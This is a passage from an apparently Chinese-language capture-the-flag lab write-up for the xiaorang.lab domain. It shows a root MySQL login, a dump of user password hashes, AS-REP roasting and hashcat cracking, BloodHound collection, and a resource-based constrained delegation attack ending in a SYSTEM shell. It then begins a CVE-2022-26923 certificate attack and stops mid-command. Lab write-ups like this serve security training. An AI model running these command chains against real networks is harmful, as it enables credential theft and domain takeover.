

```plaintext
  __ _              ___  __
 / _| |            / _ \/_ |
| |_| | __ _  __ _| | | || |
|  _| |/ _` |/ _` | | | || |
| | | | (_| | (_| | |_| || |
|_| |_|\__,_|\__, |\___/ |_|
              __/ |
             |___/


flag02: flag{a72dd03c-3ece-4775-952d-97734bf65e63}
```

## 172.22.15.24 Mysql 数据库

在桌面上发现 `phpStudy` 快捷方式，进入之后可以发现数据库



根据数据库用户 `zdoo` 可以联想到 `http://172.22.15.24/` 的 ZDOO 网站服务

尝试使用 `zdoo` 在 ` 入口点 172.22.15.26` 上连接数据库，提示无权限

```shell
(remote) www-data@ubuntu-web:/tmp$ mysql -h 172.22.15.24 -u zdoo -p
Enter password:
ERROR 1045 (28000): Access denied for user 'zdoo'@'172.22.15.26' (using password: YES)
```

尝试使用 `root` 用户登录，成功访问

```shell
(remote) www-data@ubuntu-web:/tmp$ mysql -h 172.22.15.24 -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 25
Server version: 5.7.26 MySQL Community Server (GPL)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| zdoo               |
+--------------------+
5 rows in set (0.00 sec)
```

在 `zdoo` 数据库中进行摸索

```sql
mysql> use zdoo;
Database changed
mysql> show tables;
+--------------------------------+
| Tables_in_zdoo                 |
+--------------------------------+
| hr_hpfbase                     |
| zdooameba_budget               |
| zdooameba_category             |
| zdooameba_deal                 |
| zdooameba_dealdetail           |
| zdooameba_dept                 |
| zdooameba_fee                  |
| zdooameba_rule                 |
| zdooameba_setting              |
| zdooameba_sharefee             |
| zdooameba_statement            |
| zdooameba_user                 |
| zdoocash_balance               |
| zdoocash_depositor             |
| zdoocash_fund                  |
| zdoocash_invoice               |
| zdoocash_invoicedetail         |
| zdoocash_kingdeeaccount        |
| zdoocash_mappingrelation       |
| zdoocash_trade                 |
| zdoocash_tradeinvoice          |
| zdoocash_voucher               |
| zdoocash_voucherdetail         |
| zdoocrm_address                |
| zdoocrm_contact                |
| zdoocrm_contract               |
| zdoocrm_contractorder          |
| zdoocrm_customer               |
| zdoocrm_customerinvoice        |
| zdoocrm_dating                 |
| zdoocrm_delivery               |
| zdoocrm_order                  |
| zdoocrm_orderaction            |
| zdoocrm_orderfield             |
| zdoocrm_plan                   |
| zdoocrm_quotation              |
| zdoocrm_resume                 |
| zdoocrm_salesgroup             |
| zdoocrm_salespriv              |
| zdooflow_buy                   |
| zdooflow_car                   |
| zdooflow_carbooking            |
| zdooflow_collect               |
| zdooflow_meetingroom           |
| zdooflow_meetingroombooking    |
| zdooflow_purchasegood          |
| zdooflow_purchasing            |
| zdooflow_stamp                 |
| zdoohr_bonus                   |
| zdoohr_commissionrule          |
| zdoohr_salary                  |
| zdoohr_salarycommission        |
| zdoohr_salarydetail            |
| zdoohr_tradecommission         |
| zdooim_chat                    |
| zdooim_chat_message_index      |
| zdooim_chatuser                |
| zdooim_client                  |
| zdooim_conference              |
| zdooim_conferenceaction        |
| zdooim_message                 |
| zdooim_message_backup          |
| zdooim_message_index           |
| zdooim_messagestatus           |
| zdooim_queue                   |
| zdooim_userdevice              |
| zdoooa_annual                  |
| zdoooa_attend                  |
| zdoooa_attendgroup             |
| zdoooa_attendstat              |
| zdoooa_attlog                  |
| zdoooa_cmd                     |
| zdoooa_conversion              |
| zdoooa_doc                     |
| zdoooa_doccontent              |
| zdoooa_doclib                  |
| zdoooa_holiday                 |
| zdoooa_leave                   |
| zdoooa_lieu                    |
| zdoooa_lieuconversion          |
| zdoooa_oplog                   |
| zdoooa_overtime                |
| zdoooa_project                 |
| zdoooa_refund                  |
| zdoooa_todo                    |
| zdoooa_trip                    |
| zdoopsi_batch                  |
| zdoopsi_batchproduct           |
| zdoopsi_order                  |
| zdoopsi_orderproduct           |
| zdoopsi_purchaseproduct        |
| zdoosys_action                 |
| zdoosys_actionreader           |
| zdoosys_approval               |
| zdoosys_approvalflow           |
| zdoosys_approvalflowobject     |
| zdoosys_approvalflowspec       |
| zdoosys_approvalnode           |
| zdoosys_approvalobject         |
| zdoosys_approvalrole           |
| zdoosys_article                |
| zdoosys_block                  |
| zdoosys_category               |
| zdoosys_company                |
| zdoosys_config                 |
| zdoosys_cron                   |
| zdoosys_effort                 |
| zdoosys_entry                  |
| zdoosys_exchange               |
| zdoosys_file                   |
| zdoosys_gift                   |
| zdoosys_group                  |
| zdoosys_grouppriv              |
| zdoosys_history                |
| zdoosys_issue                  |
| zdoosys_kanbancolumn           |
| zdoosys_kanbangroup            |
| zdoosys_kanbanlane             |
| zdoosys_kanbanregion           |
| zdoosys_lang                   |
| zdoosys_leadsaction            |
| zdoosys_message                |
| zdoosys_notify                 |
| zdoosys_oauth                  |
| zdoosys_package                |
| zdoosys_product                |
| zdoosys_relation               |
| zdoosys_schema                 |
| zdoosys_score                  |
| zdoosys_scorerule              |
| zdoosys_searchdict             |
| zdoosys_searchindex            |
| zdoosys_sso                    |
| zdoosys_store                  |
| zdoosys_tag                    |
| zdoosys_task                   |
| zdoosys_team                   |
| zdoosys_user                   |
| zdoosys_usercontact            |
| zdoosys_usergroup              |
| zdoosys_userquery              |
| zdoosys_weekly                 |
| zdoosys_workflow               |
| zdoosys_workflowaction         |
| zdoosys_workflowdatasource     |
| zdoosys_workflowfield          |
| zdoosys_workflowlabel          |
| zdoosys_workflowlayout         |
| zdoosys_workflowlinkdata       |
| zdoosys_workflowrelation       |
| zdoosys_workflowrelationlayout |
| zdoosys_workflowreport         |
| zdoosys_workflowrule           |
| zdoosys_workflowsql            |
| zdoosys_workflowversion        |
| zdooteam_reply                 |
| zdooteam_thread                |
| zdooview_datasource_7          |
+--------------------------------+
158 rows in set (0.00 sec)
```

在 `zdoosys_user` 这个表中，得到以下信息

```sql
select account, password, realname, email from zdoosys_user;
```

|   account    |             password             | realname |            email            |
| :----------: | :------------------------------: | :------: | :-------------------------: |
|    admin     | c7122a1349c22cb3c009da3613d242ab |  admin   |                             |
|  lixiuying   | ac5ff333cfa4e4025d29a4087a3a5016 |  李秀英  |  `lixiuying@xiaorang.lab`   |
| lixiaoliang  | 030b44481c1ce175e753da06cf70f3d2 |  李晓亮  | `lixiaoliang@xiaorang.lab`  |
|   zhangyi    | 68a5817acec06b9b4f8848ec68b1c8b7 |   张毅   |   `zhangyi@xiaorang.lab`    |
| jiaxiaoliang | ed16c05d993a15d0ffe28a9a60c9d1d2 |  贾筱芮  | `jiaxiaoliang@xiaorang.lab` |
|   zhangli    | d58e48c425a6b4913799e5b0bbdd4ee3 |   张力   |   `zhangli@xiaorang.lab`    |
|   zhangwei   | 02167256dcc0f934eaa312dd9d63820b |   张伟   |   `zhangwei@xiaorang.lab`   |
|   liuqiang   | 97df096acf67f23bc810e6eea8151133 |   刘强   |   `liuqiang@xiaorang.lab`   |
|   wangfang   | cbdb423c741fcea593f0e522fdd417b0 |   王芳   |   `wangfang@xiaorang.lab`   |
|   wangwei    | 9ed9d2a1640b54c6eb9581ce334b79ab |   王伟   |   `wangwei@xiaorang.lab`    |
|  wanglihong  | 9ed9d2a1640b54c6eb9581ce334b79ab |  王力宏  |  `wanglihong@xiaorang.lab`  |
|  huachunmei  | 9ed9d2a1640b54c6eb9581ce334b79ab |  华春梅  |  `huachunmei@xiaorang.lab`  |
|   wanghao    | 9ed9d2a1640b54c6eb9581ce334b79ab |   王浩   |   `wanghao@xiaorang.lab`    |
|  zhangxinyu  | 9ed9d2a1640b54c6eb9581ce334b79ab |  张馨予  |  `zhangxinyu@xiaorang.lab`  |
|  huzhigang   | 9ed9d2a1640b54c6eb9581ce334b79ab |  胡志刚  |  `huzhigang@xiaorang.lab`   |
|  lihongxia   | 9ed9d2a1640b54c6eb9581ce334b79ab |  李红霞  |  `lihongxia@xiaorang.lab`   |
|  wangyulan   | 9ed9d2a1640b54c6eb9581ce334b79ab |  王玉兰  |  `wangyulan@xiaorang.lab`   |
| chenjianhua  | 9ed9d2a1640b54c6eb9581ce334b79ab |  陈建华  | `chenjianhua@xiaorang.lab`  |

得到了一组敏感凭据

并且 `admin:c7122a1349c22cb3c009da3613d242ab` 的密码哈希经过数据库查询，可以得到明文为 `123456`



## 172.22.15.13 AS-REP Roasting

:::info AS-REP Roasting

AS-REP Roasting 是一种对用户账号进行离线爆破的攻击方式。但是该攻击方式利用比较局限，因为其需要用户账号设置 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)" 。而该属性默认是没有勾选上的。预身份验证是 Kerberos 身份验证的第一步 (AS_REQ & AS_REP)，它的主要作用是防止密码脱机爆破。默认情况下，预身份验证是开启的，KDC 会记录密码错误次数，防止在线爆破。

当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT 票据 和 该用户 Hash 加密的 Session Key 返回。因此，攻击者就可以对获取到的 用户 Hash 加密的 Session Key 进行离线破解，如果破解成功，就能得到该指定用户的密码明文。

AS-REP Roasting 攻击条件

域用户设置了 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)"

需要一台可与 KDC 进行通信的主机 / 用户

:::

将从数据库中得到的用户数据，提取出来邮箱信息

```plaintext
lixiuying@xiaorang.lab
lixiaoliang@xiaorang.lab
zhangyi@xiaorang.lab
jiaxiaoliang@xiaorang.lab
zhangli@xiaorang.lab
zhangwei@xiaorang.lab
liuqiang@xiaorang.lab
wangfang@xiaorang.lab
wangwei@xiaorang.lab
wanglihong@xiaorang.lab
huachunmei@xiaorang.lab
wanghao@xiaorang.lab
zhangxinyu@xiaorang.lab
huzhigang@xiaorang.lab
lihongxia@xiaorang.lab
wangyulan@xiaorang.lab
chenjianhua@xiaorang.lab
```

另存为 `user-emails.txt` 文件之后，执行爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-GetNPUsers -dc-ip 172.22.15.13 xiaorang.lab/ -usersfile user-emails.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:5d6328fca1544abbd31c14a61fd2b361$1dcc345e2b2bba51a51610e9d7e2da9c4f164cb25d33939fbe0d095b0e811dfa68bbbb4bf28c73c53de3b941fb961b95867d0834d09a7ae61c73a7a548ddd2ab63cb06a4f3aa978e879f1790c4b1a2d023877dcfbcb7babc820ad34d6c212ef81ab5a1f327e6a201ed696093d4a7d86bb743a52ff2f4b398347b95918918e7ab466db177de4b2904d4426e92725a5de10eb20c287093aef9fc8f6e7de761a639b6901cfd88750cd4243b7c4ab990e7939b0e8d3db6a16f20fd9fa187c061f67330549d0f2f4576b3e47c43b1b06441d8aae6b4e9fb4c5128bba6f0525df4466a4ae689de516da594307dffd2
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:7554860b14de1c569e8a24e23c902448$fa2aefe60b434a6974a46d86a6a7e4c20326276907fc9323fcad51d566a11ef6ab24a17576524ddb981eacfb3a1b1679e01c267751d44c42f3be179394fa727388ebc29ead8d665cc76ff647a7f25ac896f16ed72e5711092cf4cf7930b98ead6e1ac1b5ae4ef2d3538c69799b835e6c0e10f4684168ead6e4e149ebb25092806dbc61f31fb06f0f380bde955d0592b67230d3a952a7de1bddab516e85fb229c86643adc2737bce896f81a623dd299e3c8788c238c32860e7aca956b44571896cff077ca72c93a9fb673aec1f035e5f41d2f2862809f7f0c6967171478e0e72380e0c91f7a4c4c2e13875e3a
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User lihongxia@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wangyulan@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User chenjianhua@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
```

其中有两个用户的 Kerberos 哈希

- lixiuying
- huachunmei

## Kerberos 哈希爆破

使用 `hashcat` 配合 `rockyou.txt` 进行爆破

```shell
PS D:\_Tools\hashcat-6.2.6> .\hashcat.exe -d 1 -O -a 0 -m 18200 .\hash.txt .\dics\rockyou.txt
......
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:7554860b14de1c569e8a24e23c902448$fa2aefe60b434a6974a46d86a6a7e4c20326276907fc9323
3fcad51d566a11ef6ab24a17576524ddb981eacfb3a1b1679e01c267751d44c42f3be179394fa727388ebc29ead8d665cc76ff647a7f25ac896f16ed72e5711092cf4
4cf7930b98ead6e1ac1b5ae4ef2d3538c69799b835e6c0e10f4684168ead6e4e149ebb25092806dbc61f31fb06f0f380bde955d0592b67230d3a952a7de1bddab516e
e85fb229c86643adc2737bce896f81a623dd299e3c8788c238c32860e7aca956b44571896cff077ca72c93a9fb673aec1f035e5f41d2f2862809f7f0c6967171478e0
0e72380e0c91f7a4c4c2e13875e3a:1qaz2wsx
......
$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:5d6328fca1544abbd31c14a61fd2b361$1dcc345e2b2bba51a51610e9d7e2da9c4f164cb25d33939fb
be0d095b0e811dfa68bbbb4bf28c73c53de3b941fb961b95867d0834d09a7ae61c73a7a548ddd2ab63cb06a4f3aa978e879f1790c4b1a2d023877dcfbcb7babc820ad
d34d6c212ef81ab5a1f327e6a201ed696093d4a7d86bb743a52ff2f4b398347b95918918e7ab466db177de4b2904d4426e92725a5de10eb20c287093aef9fc8f6e7de
e761a639b6901cfd88750cd4243b7c4ab990e7939b0e8d3db6a16f20fd9fa187c061f67330549d0f2f4576b3e47c43b1b06441d8aae6b4e9fb4c5128bba6f0525df44
466a4ae689de516da594307dffd2:winniethepooh
```

得到两个凭据

- `huachunmei:1qaz2wsx`
- `lixiuying:winniethepooh`

## 172.22.15.35 获取域内信息

使用 `huachunmei` 的凭据登录 `XIAORANG\XR-0687 - 172.22.15.35`



直接通过 RDP 看不出有用的信息，启动 `Bloodhound`

首先先收集信息

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q bloodhound-python -u lixiuying -p winniethepooh -d xiaorang.lab -c all -ns 172.22.15.13 --zip --dns-tcp
INFO: Found AD domain: xiaorang.lab
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (xr-dc01.xiaorang.lab:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: xr-dc01.xiaorang.lab
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: xr-dc01.xiaorang.lab
INFO: Found 37 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: XR-CA.xiaorang.lab
INFO: Querying computer: XR-0687.xiaorang.lab
INFO: Querying computer: XR-DC01.xiaorang.lab
INFO: Done in 00M 22S
INFO: Compressing output into 20240726164051_bloodhound.zip
```

然后开始分析



## 172.22.15.35 RBCD

:::info RBCD

RBCD 在 Windows 2012 才引入，08 是没有这个概念的

RBCD 和传统的约束委派的区别就是，约束是在资源服务器上进行配置的，传统的约束委派中，资源服务器只能被动的接受委派，是否能够委派到资源服务器由委派服务器进行控制

RBCD 可以通过 msDS-AllowedToActOnBehalfOfOtherIdentity 属性来控制委派服务器是否能够委派任意用户来访问自己

:::

添加 hosts 记录

```shell
┌──(root ㉿ kali)-[~]
└─# echo "172.22.15.35 XR-0687.xiaorang.lab" >> /etc/hosts
```

添加机器账户

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'randark$' -computer-pass 'admin123###'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account randark$ with password admin123###.
```

执行 RBCD 攻击

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-rbcd xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'randark$'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] randark$ can now impersonate users on XR-0687$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     randark$     (S-1-5-21-3745972894-1678056601-2622918667-1147)
```

创建票据

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-getST xiaorang.lab/'randark$':'admin123###' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

导入创建好的票据

```shell
export KRB5CCNAME=Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
```

无密码情况下直接连接

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q impacket-psexec  -k -no-pass -dc-ip 172.22.15.13 administrator@XR-0687.xiaorang.lab -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on XR-0687.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file oQHVBskO.exe
[*] Opening SVCManager on XR-0687.xiaorang.lab.....
[*] Creating service VNhh on XR-0687.xiaorang.lab.....
[*] Starting service VNhh.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.20348.1668]
(c) Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system
```

## flag - 03

```plaintext
  __ _            __ ____
 / _| |__ _ __ _ /  \__ /
|  _| / _` / _` | () |_ \
|_| |_\__,_\__, |\__/___/
           |___/

flag03: flag{a6f63efe-4406-4c81-937a-c6498fad827c}
```

## 172.22.15.13 CVE-2022-26923

添加 hosts 记录

```shell
┌──(root ㉿ kali)-[~]
└─# echo "172.22.15.13 XR-DC01.xiaorang.lab" >> /etc/hosts
```

然后创建用户

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad account create -user 'randark2$' -pass 'admin123###2' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : randark2$
    unicodePwd                          : admin123###2
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/randark2
                                          RestrictedKrbHost/randark2
    dnsHostName                         : XR-DC01.xiaorang.lab
[*] Successfully created account 'randark2$' with password 'admin123###2'
```

查询域控 CA 名

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad find -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA: Could not connect: [Errno 111] Connection refused
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP: [Errno Connection error (224.0.0.1:445)] [Errno 111] Connection refused
[!] Failed to get CA configuration for 'xiaorang-XR-CA-CA'
[*] Saved BloodHound data to '20240726173651_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240726173651_Certipy.txt'
[*] Saved JSON output to '20240726173651_Certipy.json'
```

可以得知 CA 名 `xiaorang-XR-CA-CA`

申请证书模板

:::warning

这里可能会遇到 `Got error: The NETBIOS connection with the remote host timed out.` 错误

多尝试执行几次就好

:::

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad req -u 'randark2$@xiaorang.lab' -p 'admin123###2' -ca 'xiaorang-XR-CA-CA' -target 172.22.15.18 -template 'Machine'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

